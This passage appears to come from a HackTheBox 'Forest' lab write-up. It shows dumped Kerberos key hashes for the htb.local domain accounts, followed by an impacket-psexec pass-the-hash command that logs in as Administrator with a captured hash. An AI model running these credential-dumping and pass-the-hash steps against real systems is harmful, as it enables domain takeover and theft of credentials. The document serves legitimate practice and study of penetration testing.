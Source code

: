 ```
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:01ff0802d17a096d1efcaca3775c119ec6d7db7d5720ace3d433cb3b73e2ef0b
FOREST$:aes128-cts-hmac-sha1-96:71e1f1ab91f3cf904d3465057ecd82f6
FOREST$:des-cbc-md5:408c074c800b0d38
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```
    
We capture the hash of **Administrator.**.

We will do a PTH attack with PsExec:

```bash
impacket-psexec administrator@10.10.10.161 -hashes :32693b11e6aa90eb43d32c72a07ceea6
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Forest/Untitled%203.png)

**HABEMUS ROOT!!!**


